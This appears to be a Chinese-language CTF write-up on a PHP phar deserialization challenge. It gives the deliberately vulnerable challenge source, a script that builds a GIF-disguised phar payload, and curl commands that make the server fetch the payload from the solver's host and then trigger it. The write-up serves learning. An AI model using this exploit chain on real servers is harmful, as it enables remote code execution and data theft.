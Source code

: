 ```yaml
---
title: '网络安全:反序列化问题'
top: false
cover: false
toc: true
mathjax: true
date: 2020-06-07 12:41:53
password:
summary:
tags:
categories:
---
```


( ｡ớ ₃ờ)ھ经典反序列化问题,今天遇到了一个反序列化问题，最后一步连续踩坑...着实很难受(自己太菜了)！ 
话不多说我们先来看一看题目：

```php
<?php
if (!file_exists("/var/www/data/secret")) {
   $SECRET = randomkeys(16);
   file_put_contents("/var/www/data/secret", $SECRET);
} else {
   $SECRET = file_get_contents("/var/www/data/secret");
}
if (isset($_SERVER["HTTP_X_REAL_IP"])) $SERVER_IP = $_SERVER["HTTP_X_REAL_IP"];
else $SERVER_IP = $_SERVER["REMOTE_ADDR"];
$SANDBOX = "/var/www/data/" . base64_encode("ctf" . $SERVER_IP);    // 根据 remote_addr 给每个人创建一个沙盒
@mkdir($SANDBOX);
@chdir($SANDBOX);

if (!isset($_COOKIE["session-data"])) {
   $data = serialize(new User($SANDBOX));
   $hmac = hash_hmac("sha1", $data, $SECRET);    //将每个人唯一的沙盒对象加上签名后作为 session-data
   setcookie("session-data", sprintf("%s-----%s", $data, $hmac));
}

class User {
   public $avatar;
   function __construct($path) {
       $this->avatar = $path;    //设置了头像的路径为沙盒路径
  }
}

class Admin extends User {
   function __destruct() {
       $_GET["lucky"]();
  }
}

function randomkeys($length){   
   $output='';   
   for ($a = 0; $a<$length; $a++) {   
       $output .= chr(mt_rand(0, 0xFF));    //生成php随机数   
    }   
    return $output;   
}   

function getFlag() {
   $flag = file_get_contents("/flag");
   echo $flag;
}

function check_session() {
   global $SECRET;
   $data = $_COOKIE["session-data"];
   list($data, $hmac) = explode("-----", $data, 2);
   if (!isset($data, $hmac) || !is_string($data) || !is_string($hmac)) {
       die("Bye");
  }
   if (!hash_equals(hash_hmac("sha1", $data, $SECRET), $hmac)) {
       die("Bye Bye");
  }
   $data = unserialize($data);    //判断身份，如果身份正确返回头像路径(沙盒路径)
   if (!isset($data->avatar)) {    //该函数不可绕过
       die("Bye Bye Bye");
  }
   return $data->avatar;
}

function upload($path) {    //获取头像，检查头是否为GIF89a ，正确后存入沙盒
   $data = file_get_contents($_GET["url"] . "/avatar.gif");
   if (substr($data, 0, 6) !== "GIF89a") {    //这个就是利用 phar:// 进行反序列化的点
       die("Fuck off");
  }
   file_put_contents($path . "/avatar.gif", $data);
   die("Upload OK");
}

function show($path) {    //获取这个沙盒中的头像
   if (!file_exists($path . "/avatar.gif")) {
       $path = "/var/www/html";
  }
   header("Content-Type: image/gif");
   die(file_get_contents($path . "/avatar.gif"));
}

$mode = $_GET["m"];
if ($mode == "upload") {
   upload(check_session());
} else if ($mode == "show") {
   show(check_session());
} else {
   highlight_file(__FILE__);
}
```

## 简述

这道题是根据经典题目进行的改编，进行了简化，关键位置已经加上了注释。原题目为Orange 在 2017 年 hitcon 上面出的利用 Phar 进行反序列化。
题目很简短，接下来就让我们一起分析一下这道题。
题目简析

这是一个反序列化的题目。但是当年这道题全球0解，原因是用户认证部分不可以绕过，如果我们想要利用unserailize()，通过控制参数去实现反序列化，必须先绕过cookie检验。
但是cookie是通过remote_addr配合sha1进行hmac签名生成的，几乎不可能绕过，当时做题的人统统沉迷于此，才最终全球0解。
另辟蹊径

## 利用思路

我们使用 Phar 反序列化的条件有三点
(1)文件上传点
(2)系统文件函数
(3) phar:// 伪协议

可以看到 upload 函数，完美契合我们的要求，我们此时只要精心构造一个包含Admin对象和avatar.gif文件，并且起始为 GIF89a 的phar文件传上去，下一次通过Phar://协议让file_get_contents 请求这个文件就可以实现我们对 Admin 对象的反序列化了！

程序示例：
```php
<?php
class Admin {
   public $avatar = 'orz';  
} 
$p = new Phar(__DIR__ . '/avatar.phar', 0);
$p['file.php'] = '<?php ?>';
$p->setMetadata(new Admin());
$p->setStub('GIF89a<?php __HALT_COMPILER(); ?>');
rename(__DIR__ . '/avatar.phar', __DIR__ . '/avatar.gif');
?>
```

解题过程

```shell
curl http://hostname --cookie-jar cookie
返回 ： ... 无关紧要
curl -b cookie 'http://hostname?m=upload&url=http://你的服务器host'
返回：Upload OK%
curl -b cookie 'http://hostname?m=upload&url=phar:///var/www/data/（ctf + 本地IP）base64编码&lucky=getFlag
```

返回：flag
即可解出～！！(*･ω･)

## 题目回顾

在2020年做这种题目网上题解一艘一堆，直接初步定位题目类型简简单单，但是具体一些细节也会让你很难直接做对
首先这道题是base64不是md5，有的人看完原题直接就用md5，老老实实看题还是有必要的
此外这道题没有用到匿名函数，省去了写脚本的步骤，降低了难度
太久没看php最近都在看Go，看见'ctf' . 'ip' 以为是一个类或者结构体的属性....(是拼接啊喂！基础啊老哥！！！)
最后（ctf + 本地IP）base64 直接在浏览器，Brupsuite，POSTMAN都可以很明确的获取到，这里也是本人实力眼瞎没有看到...其实！！！题目里明明写了是ctf和IP拼接！！！啊啊啊！！这个错误耗时3小时，最后还是交流了一下才发现没加....一个刻骨铭心的错误Otz
这道题每个用户可以彼此空间隔离，不会出现一个上传，全体白嫖的现象，妙啊

## 尾言

遇到自己一小时解决不了的问题还是交流一下比较好，没有交流很容易自闭hhh
最后BiliBili贴代码怎么自动高光，需要后续研究一下=。=手动变色太麻烦了
有哪里想交流随时留言！！感觉安全方面学习交流还是比没有代码那么方便，欢迎交流啊～

## 参考文献

如果想要深入学习反序列化，为各位推荐一个大大大佬的博文
https://www.k0rz3n.com/2018/11/19/一篇文章带你深入理解PHP反序列化漏洞/#0X05-利用-phar-拓展-PHP-反序列化的攻击面

